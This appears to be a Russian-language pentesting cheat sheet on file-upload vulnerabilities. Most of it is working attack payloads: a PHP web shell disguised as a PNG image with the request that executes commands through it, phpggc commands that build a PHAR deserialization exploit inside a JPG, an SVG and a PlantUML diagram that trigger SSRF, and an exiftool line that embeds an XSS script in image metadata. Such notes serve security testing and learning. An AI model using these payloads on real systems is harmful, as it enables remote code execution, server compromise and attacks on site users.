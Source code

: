 # Example: Upload File

## Upload -> RCE

Веб-приложение может проверять файл только по Content-Type\
Веб-приложение позволяет изменить фото в профиле пользователя, но при этом не проверяет должным образом обновленные изображения, в результате чего вместо загрузки фото можно загрузить php-файл и удаленно исполнить команду на сервере.

Пример: Запрос на загрузку файла: \
`Content-Disposition: form-data; name="file"; filename="image.php"` \
`Content-Type: image/png`\
\
`%PNG .... IEND .. <?php system($_GET['blabla]); ?> -----------------WebKitFormBoundaryNJKDFNAJCNA`\


В ответ: \
`HTTP/1.1 200 OK`\
\
`{"path": "/some/path/crooped.php", "error": 0}`

Следующий запрос: \
`GET /some/path/crooped.php?blabla=dir+C:\`

Получаем RCE :)

## Upload PHAR -> RCE

PHAR - это сериализованный или упакованный PHP код?

Проблема с php rce — надо чтобы скрипт заканчивался на .php

Однако, если у нас есть возможность заставить сервак обратиться по схеме phar:// к локальному файлу, который мы контролируем, то это может привести к исполнению кода

Пример: загружаем exploit.jpg, как аватар, который является PHAR-файлом

```
git clone https://github.com/ambionics/phpggc
$ cd ./phpggc
$ wget https://upload.wikimedia.org/wikipedia/en/a/a9/Example.jpg
$ ./phpggc -pj Example.jpg ZendFramework/RCE3 system 'ls -lah' > exploit.jpg
```

Теперь, если есть SSRF, например, то6 при обращении к `phar:///var/www/example.com/data/upload/image/exploit.jpg` исполнится наш код.

## SVG -> SSRF

```markup
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"> 
<image height="30" width="30" 
xlink:href="https://controlledserver.com/pic.svg" /> 
</svg>
```

## XSS Payload -> Image (PNG)

```
exiftool -Comment="\"><script>alert(prompt('Payload for XSS'))</script>" xss_comment_exif_metadata_double_quote.png
```

## UML -> SSRF

UML диаграммы могут поддерживать инклуд других файлов, в том числе с удаленных сервисов

Например:

```
@startuml
!include http://127.0.0.1:80
%load_json('http://localhost')
@enduml
```
